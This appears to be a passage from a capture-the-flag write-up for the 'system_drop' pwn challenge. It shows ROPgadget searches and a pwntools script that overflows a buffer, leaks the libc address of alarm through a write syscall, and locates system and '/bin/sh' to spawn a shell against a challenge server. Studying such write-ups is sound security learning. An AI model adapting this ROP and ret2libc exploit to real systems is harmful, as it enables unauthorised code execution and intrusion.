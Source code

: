 ```syscal``` located on ```0x40053b <+4>:	syscall```

We need to find gadget to ```rax```, ```rdi``` and ```rsi```:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/system_drop]
└──╼ $ ROPgadget --binary system_drop | grep "pop rdi"
0x00000000004005d3 : pop rdi ; ret
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/system_drop]
└──╼ $ ROPgadget --binary system_drop | grep "pop rsi"
0x00000000004005d1 : pop rsi ; pop r15 ; ret
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/system_drop]
└──╼ $ ROPgadget --binary system_drop | grep "pop rax"
```

So we found gadgets only for ```rdi``` and ```rsi```, We still need to find gadget to ```rax```.

According [read](https://man7.org/linux/man-pages/man2/read.2.html) function, If we call ```read``` function it will make ```rax``` to be 1 and this exactly what we need (becuse ```write``` system call required 1 in ```rax``` register).

Next we need to call ```write``` to leak ```alarm``` address and finally to return again to main function (By calling to ```_start``` function which we can get ```_start``` function using ```gdb``` command ```p _start```.

So the plan is:
1. Call ```read``` function, send input with length 1.
2. Call ```write``` function to leak ```alarm``` address.
3. Calculate libc address according ```alarm``` leak.
4. pop shell.

So let's write it:
```python
from pwn import *

elf = ELF('./system_drop')
libc = elf.libc

if args.REMOTE:
    p = remote('46.101.23.157',31121)
else:
    p = process(elf.path)

# gadgets
_start = 0x400450 # gdb: p _start
pop_rdi = 0x4005d3 #0x4005d3 # ROPgadget
pop_rsi_r15 = 0x4005d1 # ROPgadget
syscall = 0x40053b # gdb: disassemble _syscall
read = 0x400440 # gdb: disassemble main


leak_buff = b'A'*0x28 # Calculated offset
leak_buff += p64(pop_rdi)
leak_buff += p64(1) # fd=stdout=1
leak_buff += p64(pop_rsi_r15)
leak_buff += p64(elf.got['alarm']) # we want to leak alarm function address
leak_buff += p64(0)
leak_buff += p64(syscall) # call syscall with the arguments above
leak_buff += p64(_start) # return back to main

p.send(leak_buff)
leak_alarm = u64(p.recv(8))
log.info('Leaked alarm: %s' % hex(leak_alarm))
libc.address = leak_alarm - libc.sym.alarm
system = libc.sym.system
bin_sh = libc.search(b"/bin/sh").__next__()
log.info('Libc system @ %s' % hex(system))
log.info('Libc bin_sh @ %s' % hex(bin_sh))
```